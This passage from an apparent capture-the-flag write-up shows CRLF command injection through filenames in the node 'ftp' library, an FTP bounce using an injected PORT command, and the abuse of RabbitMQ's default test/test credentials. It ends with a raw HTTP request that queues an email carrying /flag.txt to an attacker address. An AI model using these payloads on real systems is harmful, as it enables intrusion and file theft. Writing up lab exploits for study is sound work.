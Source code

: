 Digging into the source for the `ftp` library, we see that `.get(...)` is vulnerable to command injection via the filename: `"/some/path\r\n{COMMAND}\r\n`. See: [`lib/connection.js:608`](https://github.com/mscdex/node-ftp/blob/7dff82fc049a52f51803bdffb95ec1de383f9fac/lib/connection.js#L608).


We observe that injecting the ftp command `PORT 192,168,1,1,0,10` (substituting your own IP/port) causes the remote server to open a connection to our IP. So we can craft an ftp bounce attack!


## RabbitMQ open management api<a name="rabbitmq-open"></a>

The RabbitMQ docker container sets up the web-based management portal with credentials username: `test`, password: `test`. We can play around in this portal by modifying `docker-compose.yml` to expose port `15672`.

```yml
  rabbit:
    image: rabbit
    restart: always
    build:
      context: "./services/rabbit"
      dockerfile: "./rabbit.dockerfile"
    environment:
      username: "test"
      password: "test"
    ports:
     - "15672:15672"
    networks:
      default:
        ipv4_address: 172.32.56.72
```

We quickly find a [HTTP POST api](https://rawcdn.githack.com/rabbitmq/rabbitmq-management/v3.8.3/priv/www/api/index.html) for publishing a message on a channel. This is useful, because we need to publish our own message to trigger the emailer vulnerability listed above.

# Final Exploit<a name="exploit-final"></a>

We begin by crafting a HTTP POST which RabbitMQ interprets as a publish message request. Make sure it has DOS line-endings, per HTTP spec. View the example below, `req.txt`:

```http
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: rabbit:15672
Authorization: Basic dGVzdDp0ZXN0
Content-Type: text/plain;charset=UTF-8
Content-Length: <compute this manually>
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\": \"youremail@example.com\", \"subject\": \"hi, mom!\", \"text\": \"body\", \"attachments\": [{\"filename\": \"flag.txt\", \"path\": \"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
```
